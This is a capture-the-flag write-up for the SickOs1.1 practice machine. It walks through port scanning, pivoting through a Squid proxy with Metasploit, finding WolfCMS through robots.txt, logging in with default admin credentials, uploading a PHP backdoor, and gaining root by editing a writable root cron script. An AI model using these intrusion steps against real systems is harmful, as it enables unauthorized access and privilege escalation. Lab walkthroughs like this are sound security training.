 # SickOs1.1 Writeup

## Recon

### Port scanning

``` bash
PORT     STATE  SERVICE    VERSION
22/tcp   open   ssh        OpenSSH 5.9p1 Debian 5ubuntu1.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 09:3d:29:a0:da:48:14:c1:65:14:1e:6a:6c:37:04:09 (DSA)
|   2048 84:63:e9:a8:8e:99:33:48:db:f6:d5:81:ab:f2:08:ec (RSA)
|_  256 51:f6:eb:09:f6:b3:e6:91:ae:36:37:0c:c8:ee:34:27 (ECDSA)
3128/tcp open   http-proxy Squid http proxy 3.1.19
|_http-server-header: squid/3.1.19
|_http-title: ERROR: The requested URL could not be retrieved
8080/tcp closed http-proxy
```
Seems port 3128 has a squid proxy open. This might allow for proxy pivoting to scan the internal network

```bash
msfconsole
use auxiliary/scanner/http/squid_pivot_scanning
set RHOSTS <IP>
set RPORT 3128
set RANGE <IP>
run
```

this does an internal port scan and returns

```bash
[+] [IP] IP is alive but 21 is CLOSED
[+] [IP] IP:80 seems OPEN
[+] [IP] IP is alive but 139 is CLOSED
[+] [IP] IP is alive but 445 is CLOSED
[+] [IP] IP is alive but 1433 is CLOSED
[+] [IP] IP is alive but 1521 is CLOSED
[+] [IP] IP is alive but 1723 is CLOSED
[+] [IP] IP is alive but 3389 is CLOSED
[+] [IP] IP is alive but 8080 is CLOSED
[+] [IP] IP is alive but 9100 is CLOSED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

This shows that the proxy is able to connect to the internal 80 port. 
Let's see what is hosted there by setting our proxy to the virtual machine

![](OSCPblehh.png)

It seems like there is something here. The next step is to do some directory busting

``` bash
dirb <ip> 
```

this returns:

```bash
---- Scanning URL: http://<IP>/ ----
+ http://<IP>/cgi-bin/ (CODE:403|SIZE:290)                                     
+ http://<IP>/connect (CODE:200|SIZE:109)                                      
+ http://<IP>/index (CODE:200|SIZE:21)                                         
+ http://<IP>/index.php (CODE:200|SIZE:21)                                     
+ http://<IP>/robots (CODE:200|SIZE:45)                                        
+ http://<IP>/robots.txt (CODE:200|SIZE:45)                                    
+ http://<IP>/server-status (CODE:403|SIZE:295) 
```

Let's look in robots.txt to see if there are any directories we've missed

```bash
User-agent: *
Disallow: /
Dissalow: /wolfcms
```

seems like there is a /wolfcms we haven't found. it looks like this

![](OSCPwolfcms.png)

Looks like a content management system. The admin login page for wolfcms is located at
http://<IP>/wolfcms/?/admin/login

by trying some simple admin login credentials like "admin admin" we can login to the admin account.

by going to the article list we can see an article that contains php code. This probably means that the php code get's executed and might allow us to create a shell. By uploading a php file (which we can do as admin) we can upload a php backdoor to the /public folder.

now that we have our shell we can do some recon on the machine.

```bash
whoami
www-data
```

If we check /etc/cron.d/automate we can see that it contains

```bash
* * * * * root /usr/bin/python /var/www/connect.py
```

This means it executes a file as root in /var/www. since we are www-data we are able to write in that directory. This means we can edit the connect.py file to execute any piece of code we want.
This way we can read the flag by writing the python code

```python
f = open("/root/a0216ea4d51874464078c618298b1367.txt")
f2 = open("/var/www/flag.txt", 'w')
f2.write(f.read())
```

After a little wait it creates a flag.txt file that we can read with the contents:

```bash
If you are viewing this!!

ROOT!

You have Succesfully completed SickOS1.1.
Thanks for Trying
```
